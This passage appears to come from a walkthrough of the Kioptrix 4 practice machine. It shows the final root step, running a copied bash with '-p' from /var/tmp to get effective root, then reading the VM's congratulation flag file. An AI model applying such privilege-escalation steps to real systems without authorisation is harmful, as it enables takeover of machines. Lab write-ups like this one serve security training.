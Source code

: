 then we head over to `/var/tmp` to verify , and we run it :

```
robert@Kioptrix4:/var/tmp$ ls
bash

robert@Kioptrix4:/var/tmp$ ./bash -p
bash-3.2# id
uid=1002(robert) gid=1002(robert) euid=0(root) groups=1002(robert)
bash-3.2# whoami
root

```

FInally the flag :

```
bash-3.2# cat /root/congrats.txt 
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret


```
